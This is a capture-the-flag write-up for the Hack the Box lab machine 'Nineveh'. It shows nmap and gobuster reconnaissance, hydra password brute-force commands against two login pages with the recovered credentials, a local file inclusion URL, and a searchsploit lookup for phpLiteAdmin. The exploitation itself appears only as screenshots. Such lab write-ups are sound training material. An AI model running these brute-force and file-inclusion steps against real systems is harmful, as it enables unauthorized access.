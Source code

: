 # Hack the Box - Nineveh


## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.43 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.43
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

```CSS
▶ nmap -sC -sV -p 80,443 10.10.10.43 -oN deep.nmap

Nmap scan report for 10.10.10.43
Host is up (0.18s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/234479646-7b054e0f-a213-479e-9a80-3d63bdcbb1ef.png)

---

## HTTPS/SSL
![image](https://user-images.githubusercontent.com/83878909/234479727-ccec4c69-ee5a-4d14-b0ac-20744987d630.png)

## SSL Certificate Information
```CSS
▶ openssl s_client -connect nineveh.htb:443
```
![image](https://user-images.githubusercontent.com/83878909/234488440-5c959a74-496a-48b6-87c9-8ff1ddb0ad47.png)

---

## Content Discovery
  - Directory brute-force - `http://nineveh.htb`
```CSS
▶ gobuster dir -u nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![image](https://user-images.githubusercontent.com/83878909/234485858-a451bd36-d418-447e-924a-bdecc2cd8c61.png)
![image](https://user-images.githubusercontent.com/83878909/234485999-3f3e259c-2a1d-420a-ac1f-4a41b74b2480.png)

  - Directory brute-force - `https://nineveh.htb`
```CSS
▶ gobuster dir -u https://nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-tls-validation
```
![image](https://user-images.githubusercontent.com/83878909/234487716-3c05a713-9514-4b7e-848f-5686b58b320b.png)
![image](https://user-images.githubusercontent.com/83878909/234484978-13d104de-2e36-46c6-8f17-fbb217cf826e.png)

---

## Brute-force Credentials
  - Page: `http://nineveh.htb/department/login.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234488924-25dd7cb9-7e32-4297-a545-3f04f699c6f7.png)
```CSS
Credentials: admin:1q2w3e4r5t
```

  - Page: `https://nineveh.htb/db/index.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234490465-5b8c57b0-03c2-4385-b2cc-a8bff186fdd9.png)
```CSS
Credentials: admin:password123
```
---
  - Home: `http://nineveh.htb/department/manage.php`
![image](https://user-images.githubusercontent.com/83878909/234503125-7b01ee2d-05ab-4a4d-99c3-34203400bef2.png)

  - Notes: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234503429-75a2e5b6-f739-4093-b2c2-b137aea0dd91.png)

---

  - Dashboard: `https://nineveh.htb/db/index.php`
![image](https://user-images.githubusercontent.com/83878909/234558464-b656bd0d-0942-4420-8e46-bbfbb833705f.png)

---

## Local File Inclusion(LFI)
  - URL: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234561596-3375a5a2-0015-448b-807c-2a5fb42aca58.png)
![image](https://user-images.githubusercontent.com/83878909/234561294-8c2c1a9c-db43-4dc6-baa3-9c53d31d8287.png)
![image](https://user-images.githubusercontent.com/83878909/234562592-182e614e-0287-4ba9-b0ff-6e1f9c626744.png)

## Searchsploit
```CSS
▶ searchsploit phpLiteAdmin
```
![image](https://user-images.githubusercontent.com/83878909/234558865-27ea3b54-64e7-4c1a-8ab4-527e8278b051.png)
![image](https://user-images.githubusercontent.com/83878909/234563586-f21678b1-c036-4f66-81b4-31cf99ad8690.png)
![image](https://user-images.githubusercontent.com/83878909/234564279-94bf032a-8eec-4587-a5ca-57939c4c2cc6.png)
![image](https://user-images.githubusercontent.com/83878909/234564484-13d373a3-d688-4fd8-b547-ef36d506ad93.png)
![image](https://user-images.githubusercontent.com/83878909/234564717-f30a4d82-67af-4659-a772-c09fcdb3fffc.png)

## Exploit Local File Inclusion
![image](https://user-images.githubusercontent.com/83878909/234565248-8cece311-7f2c-4c84-b335-e9eec6a6ff82.png)
![image](https://user-images.githubusercontent.com/83878909/234565557-3f97fa6b-65ac-4368-922f-00798fd18f5f.png)



